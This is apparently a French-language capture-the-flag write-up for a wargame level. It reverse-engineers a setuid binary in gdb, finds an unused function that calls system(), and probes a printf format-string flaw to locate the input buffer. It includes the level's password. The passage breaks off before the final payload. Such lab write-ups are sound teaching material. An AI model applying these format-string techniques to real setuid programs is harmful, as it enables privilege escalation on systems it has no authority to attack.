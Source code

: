 # Level5

> login:password -> *`level5:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`*
```
:~$ su level5
Password:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
---

```
:~$ pwd
/home/user/level5
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level5
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level5` :

```
:~$ ./level5
(input) test
test

:~$ ./level5 test
(input) test
test
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level5
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	    push   %ebp
   0x08048505 <+1>:	    mov    %esp,%ebp
   0x08048507 <+3>:	    and    $0xfffffff0,%esp
   0x0804850a <+6>:	    call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

fonction `n()` (+6)
n -> fonction `printf()` (+49)
pas de fonction `system()` ou autre moyen d'acceder au stdin, donc on va voir si on trouve d'autres fonctions utiles


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x08048380  printf@plt
(...)
0x08048390  _exit@plt
(...)
0x080483a0  fgets@plt
(...)
0x080483b0  system@plt
(...)
0x080483d0  exit@plt
(...)
0x080484a4  o
0x080484c2  n
0x08048504  main
(...)
```

Finalement on retrouve bien l'utilisation d'une fonction `system()`, mais egalement l'utilisation d'une fonction `o()` qui semble inexploitee

```
(gdb) disas o
Dump of assembler code for function o:
   (...)
   0x080484aa <+6>:	    movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

On determine du coup que la fonction `o()` pourra etre utilise pour atteindre le stdin, mais pour ce faire on va de nouveau exploiter `printf()`

```
:~$ echo "%x %x %x %x" | ./level5
200 b7fd1ac0 b7ff37d0 25207825

:~$ echo "aaaa %x %x %x %x" | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

Notre buffer est en 4e position

```
(gdb) info function exit
All defined functions:

Non-debugging symbols:
0x08048390  _exit
0x08048390  _exit@plt
0x080483d0  exit
0x080483d0  exit@plt

(gdb) info function o
All defined functions:

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

...